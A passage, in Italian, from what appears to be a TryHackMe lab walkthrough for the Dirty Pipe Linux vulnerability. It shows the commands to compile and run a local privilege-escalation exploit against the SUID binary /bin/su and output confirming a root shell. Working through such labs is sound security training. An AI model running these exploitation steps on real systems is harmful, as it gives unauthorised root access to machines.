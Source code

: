 ```
gcc dirtypipez.c -o exploit
```
```
ls
```
```
dirtypipez.c  exploit
```
**Una volta compilato, l'exploit dovrebbe essere eseguito con un singolo argomento che specifica un binario di destinazione, di proprietà di root e con il bit SUID impostato, ad esempio:**
```
./exploit /bin/su
```

```
id
```
Ora dovresti avere di nuovo una shell root!
```
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ ./exploit /bin/su
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..ologin
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),1001(tryhackme)
# 
```
e siamo di nuovo root!

Rimuovere il binario SUID creato dallo script ( /tmp/sh).

[Facoltativo] Trova online un altro exploit per questa vulnerabilità. Esamina il codice per assicurarti che funzioni correttamente, quindi caricalo sul target e prova a sfruttare la vulnerabilità in un terzo modo.

